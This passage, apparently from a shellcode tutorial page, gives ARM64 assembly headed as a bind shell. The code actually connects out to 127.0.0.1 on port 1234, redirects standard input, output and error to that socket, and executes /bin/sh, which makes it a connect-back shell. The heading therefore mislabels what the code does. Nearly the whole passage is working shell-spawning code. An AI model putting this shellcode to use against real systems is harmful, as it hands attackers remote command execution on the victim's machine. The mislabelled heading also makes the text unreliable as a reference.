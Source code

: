 ### Bind shell (listen for incoming)

Rather than use PC-relative instructions, the network address structure is initialized using immediate values.
```arm
    .arch armv8-a

    .include "macro.inc"

    .equ PORT, 1234
    .equ HOST, 0x0100007F // 127.0.0.1

    .global _start
    .text

_start:
    @ s = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
    mov     x8, SYS_socket
    mov     x2, IPPROTO_IP
    mov     x1, SOCK_STREAM
    mov     x0, AF_INET
    svc     0

    mov     w3, w0       @ w3 = s

    @ connect(s, &sa, sizeof(sa));
    mov     x8, SYS_connect
    mov     x2, 16
    movq    x1, ((HOST << 32) | ((((PORT & 0xFF) << 8) | (PORT >> 8)) << 16) | AF_INET)
    str     x1, [sp, -16]!
    mov     x1, sp     @ x1 = &sa 
    svc     0

    @ dup3(s, STDERR_FILENO, 0);
    @ dup3(s, STDOUT_FILENO, 0);
    @ dup3(s, STDIN_FILENO,  0);
    mov     x8, SYS_dup3
    mov     x1, STDERR_FILENO + 1
c_dup:
    mov     x2, xzr
    mov     w0, w3
    subs    x1, x1, 1
    svc     0
    bne     c_dup

    @ execve("/bin/sh", NULL, NULL);
    mov     x8, SYS_execve
    movq    x0, BINSH
    str     x0, [sp]
    mov     x0, sp
    svc     0
```
